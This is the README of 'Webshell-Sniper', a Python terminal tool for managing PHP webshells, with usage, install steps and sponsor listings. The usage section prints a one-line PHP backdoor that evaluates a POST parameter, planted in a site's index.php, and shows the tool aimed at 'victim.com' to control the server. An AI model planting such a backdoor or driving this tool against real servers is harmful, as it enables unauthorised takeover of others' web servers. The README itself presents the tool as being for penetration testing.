 # Webshell-Sniper
A webshell manager via terminal

[![Backers on Open Collective](https://opencollective.com/Webshell-Sniper/backers/badge.svg)](#backers)
[![Sponsors on Open Collective](https://opencollective.com/Webshell-Sniper/sponsors/badge.svg)](#sponsors) 

#### Usage :
```
Usage : 
        python webshell-sniper.py [URL] [METHOD] [AUTH]
Example : 
        python webshell-sniper.py http://127.0.0.1/c.php POST c
Author : 
        WangYihang <wangyihanger@gmail.com>
```
```
# cat /var/www/html/index.php
<?php eval($_POST['s3cr3t']);?>
# python webshell-sniper.py http://victim.com/index.php POST s3cr3t
...
```

#### Installation:
```
git clone https://github.com/WangYihang/Webshell-Sniper
cd Webshell-Sniper
pip install -r requirements.txt
```

#### Example : 

> v1.1.2

[![A Pentest Example via Webshell-Sniper (YouTube)](./images/pentest_0.png)](https://www.youtube.com/watch?v=iAUwb8SSS4s)

#### Compatibility :
```
Enviroment :
    Attacker :
        Linux
        python 2.7
    Victim :
        apache 2.4
        php 7.0
```

#### Addations:
1. This tool only support to run on unix-like system.
2. It is able to help user control web server which is running PHP or MySQL

## Contributors

This project exists thanks to all the people who contribute. 
<a href="https://github.com/WangYihang/Webshell-Sniper/graphs/contributors"><img src="https://opencollective.com/Webshell-Sniper/contributors.svg?width=890&button=false" /></a>


## Backers

Thank you to all our backers! 🙏 [[Become a backer](https://opencollective.com/Webshell-Sniper#backer)]

<a href="https://opencollective.com/Webshell-Sniper#backers" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/backers.svg?width=890"></a>


## Sponsors

Support this project by becoming a sponsor. Your logo will show up here with a link to your website. [[Become a sponsor](https://opencollective.com/Webshell-Sniper#sponsor)]

<a href="https://opencollective.com/Webshell-Sniper/sponsor/0/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/0/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/1/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/1/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/2/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/2/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/3/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/3/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/4/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/4/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/5/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/5/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/6/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/6/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/7/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/7/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/8/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/8/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/9/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/9/avatar.svg"></a>


